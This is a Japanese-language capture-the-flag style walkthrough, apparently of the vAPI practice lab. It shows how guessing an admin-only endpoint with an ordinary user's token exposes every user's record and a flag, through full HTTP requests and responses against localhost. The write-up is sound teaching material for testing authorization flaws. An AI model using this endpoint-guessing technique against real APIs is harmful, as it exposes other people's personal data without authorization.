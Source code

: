 # API5 Broken Function Level Authorization
一般ユーザや匿名ユーザがアクセスできないエンドポイントは攻撃者もアクセスできない。  
ただし、認可制御が正しく行えていない場合はURLを推測することで攻撃を受ける可能性がある。

ユーザ作成APIを実行。
```http
POST /vapi/api5/user HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 4152587f-1a50-4e37-b97c-d3b88f72e05e
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 135

{
    "username":"testuser2",
    "password":"test123",
    "name":"Test User",
    "address":"ABC",
    "mobileno":"888888888"
}
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Sat, 05 Mar 2022 13:55:57 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:55:57 GMT
Content-Type: application/json

{"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888","id":2}
```

作成したユーザの情報を取得するAPIを実行する。
```http
GET /vapi/api5/user/2 HTTP/1.1
Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 9370f396-423e-4e19-a769-ea1e43c5bcb8
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:56:49 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:56:49 GMT
Content-Type: application/json

{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"}
```

管理機能と書いているので`admin`などを試してみるが、エラーになる。
```http
GET /vapi/api5/admin/ HTTP/1.1
Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 9370f396-423e-4e19-a769-ea1e43c5bcb8
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```
```http
HTTP/1.0 500 Internal Server Error
Host: localhost
Date: Sat, 05 Mar 2022 14:04:59 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 14:04:59 GMT
Content-Type: application/json

{}
```

ひとしきり試してあきらめかけたが`users`が正解だったようで過剰なデータが取れた。
```http
GET /vapi/api5/users/ HTTP/1.1
Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 9370f396-423e-4e19-a769-ea1e43c5bcb8
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 14:06:21 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 14:06:21 GMT
Content-Type: application/json

[{"id":1,"username":"admin","name":"Admin User","address":"flag{api5_76dd990a97ff1563ae76}","mobileno":"8080808080"},{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"}]
```
